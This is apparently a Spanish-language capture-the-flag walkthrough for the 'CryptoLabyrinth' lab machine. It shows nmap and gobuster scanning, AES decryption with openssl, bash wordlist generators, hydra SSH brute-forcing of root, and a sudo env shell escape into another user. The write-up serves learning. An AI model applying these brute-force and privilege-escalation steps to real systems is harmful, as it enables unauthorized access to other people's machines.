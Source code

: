 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 25/10/2024 🖥️The
  Hacker Labs
---
```


# CryptoLabyrinth

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.82
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.82
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (21).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.82
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (11).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos la página por defecto de **Apache**.

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (8).png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente nos encontramos una cadena que podría ser una contraseña.

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (4).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.82/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (9).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio oculto llamado `/hidden` por lo que indagamos qué contenido habrá.

Observamos varios archivos por lo que nos los descargamos e indagaremos más a fondo pero tiene pinta que hay trata de criptografía.

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://192.168.1.82/hidden/
```

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

<pre class="language-bash"><code class="lang-bash"><strong>openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
</strong></code></pre>

```
openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -pbkdf2
```

Descifra el archivo `alice_aes.enc` utilizando AES-256-CBC con la clave `supercomplexkey!`,y guarda el resultado en el archivo `alice_password.txt`. La opción de iteración asegura que el proceso de derivación de la clave sea más seguro al hacerlo más difícil de atacar por fuerza bruta.

> Nota: la clave se encuentra en el archivo numeros\_suerte.txt

Hemos descubierto de **alice** que es **superSecurePassword!**

Vamos a descubrir las credenciales del usuario **bob**, al parecer hay varios hashes por lo que los vamos a crackear.

Nos aseguramos de tener todos los hashes de las contraseñas de Bob en un solo archivo. Combinamos los hashes en un único archivo de texto usando el siguiente comando:

```bash
cat bob_password*.hash > bob_passwords.hash
```

Desciframos estos hashes y se nos proporciona 4 contraseñas y al probar vemos que no son. Hay un hash que falta por lo que creamos un diccionario con la cadena vista en el código fuente.

```bash
#!/bin/bash

# Verificar si se proporcionó una palabra
if [ "$#" -ne 1 ]; then
    echo "Uso: $0 <palabra>"
    exit 1
fi

# Palabra proporcionada por el usuario
palabra="$1"

# Eliminar los últimos dos asteriscos (si existen)
palabra_sin_asteriscos="${palabra//\*/}"

# Definir los caracteres alfanuméricos (mayúsculas, minúsculas y dígitos)
caracteres="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

# Crear un archivo de salida
archivo_salida="combinaciones.txt"
> "$archivo_salida"  # Vaciar el archivo si ya existe

# Generar combinaciones con el comando seq y expandiendo directamente los caracteres
for i in $(seq 0 $((${#caracteres}-1))); do
    for j in $(seq 0 $((${#caracteres}-1))); do
        # Concatenar la palabra sin asteriscos con los caracteres generados
        echo "${palabra_sin_asteriscos}${caracteres:$i:1}${caracteres:$j:1}" >> "$archivo_salida"
    done
done

echo "Combinaciones generadas y guardadas en $archivo_salida"

```

```bash
./rompe.sh "2LWxmDsW0**"
```

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos la fuerza bruta al usuario **bob** con las combinaciones generadas anteriormente.

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tras haber obtenido las credenciales, iniciamos sesión con **bob**.

```bash
ssh bob@192.168.1.82
```

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Escalada de privilegios con `env` (Bob)**

El binario `/usr/bin/env` puede ser utilizado para escalar privilegios cuando tiene permisos de sudo sin contraseña pero con el usuario **alice**. A continuación te muestro cómo podrías hacerlo siguiendo los pasos proporcionados por **GTFObins**.

**Comando de GTFObins (env) para obtener una shell de root:**

```bash
sudo -u alice /usr/bin/env /bin/sh
```

Mejoramos la TTY para trabajar en alice.

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando entre los directorios encontramos en el directorio `/mnt` un archivo secreto.

<figure><img src="../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Creamos un diccionario como anteriormente para descifrar la contraseña correcta.

```bash
#!/bin/bash

# Verificar si se proporcionó una palabra
if [ "$#" -ne 1 ]; then
    echo "Uso: $0 <palabra>"
    exit 1
fi

# Palabra proporcionada por el usuario
palabra="$1"

# Eliminar los asteriscos de la palabra
palabra_sin_asteriscos="${palabra//\*/}"

# Definir los caracteres alfanuméricos (mayúsculas, minúsculas y dígitos)
caracteres="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

# Crear un archivo de salida
archivo_salida="combinaciones.txt"
> "$archivo_salida"  # Vaciar el archivo si ya existe

# Obtener la longitud de la palabra sin asteriscos
longitud=${#palabra_sin_asteriscos}

# Generar todas las combinaciones de 2 caracteres
for ((i = 0; i < ${#caracteres}; i++)); do
    for ((j = 0; j < ${#caracteres}; j++)); do
        # Insertar los caracteres en las posiciones deseadas
        combinacion="${palabra_sin_asteriscos:0:4}${caracteres:i:1}${palabra_sin_asteriscos:4:5}${caracteres:j:1}"
        # Escribir en el archivo
        echo "$combinacion" >> "$archivo_salida"
    done
done

echo "Combinaciones generadas y guardadas en $archivo_salida"

```

<figure><img src="../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta para conseguir la contraseña completa.

```bash
hydra -l root -P combinaciones.txt ssh://192.168.1.82
```

Obtenemos la contraseña completa que es **`2LWx9DsW0A3`**.

<figure><img src="../.gitbook/assets/Captura de pantalla 2024-10-26 172442.png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
